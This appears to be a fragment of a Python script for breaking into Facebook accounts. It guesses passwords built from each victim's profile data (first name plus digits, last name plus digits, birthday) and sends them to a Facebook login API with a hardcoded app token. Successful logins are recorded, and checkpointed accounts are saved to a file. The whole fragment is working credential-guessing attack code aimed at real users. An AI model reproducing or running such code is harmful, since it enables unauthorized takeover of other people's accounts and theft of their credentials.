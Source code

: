 				z = json.loads(x.text)
				print("\033[1;97m[ \033[1;92m✓\033[1;97m ] "+user+"|" +pass1+" =>"+z['name'])
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					cek = open("out/super_cp.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					#Pass2
					pass2 = b['first_name']+'12345'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
						z = json.loads(x.text)
						print("\033[1;97m[ \033[1;92m✓\033[1;97m ] "+user+"|" +pass2+" =>"+z['name'])
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							cek = open("out/super_cp.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							#Pass3
							pass3 = b['last_name'] + '123'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q:
								x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
								z = json.loads(x.text)
								print("\033[1;97m[ \033[1;92m✓\033[1;97m ] "+user+"|" +pass3+" =>"+z['name'])
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									cek = open("out/super_cp.txt", "a")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass3)
								else:
									#Pass4
									lahir = b['birthday']
									pass4 = lahir.replace('/', '')
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
										z = json.loads(x.text)
										print("\033[1;97m[ \033[1;92m✓\033[1;97m ] "+user+"|" +pass4+" =>"+z['name'])
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]:
											cek = open("out/super_cp.txt", "a")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)